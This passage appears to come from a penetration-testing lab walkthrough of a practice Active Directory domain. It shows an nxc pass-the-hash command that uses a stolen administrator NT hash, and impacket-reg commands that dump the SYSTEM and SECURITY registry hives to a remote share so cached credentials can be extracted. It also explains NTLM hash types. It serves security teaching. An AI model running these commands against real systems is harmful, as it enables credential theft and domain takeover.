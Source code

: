 
- Here we can see there is no password reuse between castelblack and others servers.
    
- But when a computer is promote to a domain controler the local administrator password is then used as the domain administrator password, so a test we could do is trying the password reuse between our administrator local account and the domain controler administrator account.
    
```
nxc smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4'
```
![screenshot](pics/nxc_pth_nonlocal.png)


- As we can see the local administrator password NT hash we extracted from castelblack’s sam database is the same as the north.sevenkingdoms.local administrator NT hash.
    
- Here the password reuse between castelblack and winterfell give us the domain administrator power on the north domain.
    

> LM/NT/NTLM/NetNTLMv1/NetNTLMv2 what’s the difference ?  
> There is a lot of confusion between the hash names and this could be very disturbing for people when they begin in the active directory exploitation.
> 
> - LM : old format turned off by default starting in Windows Vista/Server 2008
> - NT (a.k.a NTLM) : location SAM & NTDS : This one is use for pass the hash (i still often use the generic term ntlm to call this, sry)
> - NTLMv1 (a.k.a NetNTLMv1) : Used in challenge/response between client and server -> can be cracked or used to relay NTLM
> - NTLMv2 (a.k.a NetNTLMv2) : Same as NetNTLMv1 but improved and harder to crack -> can be cracked or used to relay NTLM

## LSA (Local Security Authority) secrets And Cached domain logon information

- When your computer is enrolled on a windows active directory you can logon with the domain credentials.
- But when the domain is unreachable you still can use your credentials even if the domain controller is unreachable.
- This is due to the cached domain logon information who keep the credentials to verify your identity.
- This is stored on C:\Windows\System32\config\SECURITY (available on HKLM\SECURITY)
- Just like for the sam database you will need the system file located at C:\Windows\System32\config\SYSTEM and is available on the registry at HKLM/SYSTEM.
```
impacket-reg NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SYSTEM' -o '\\192.168.56.118\share'
impacket-reg.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SECURITY' -o '\\192.168.56.118\share'
```
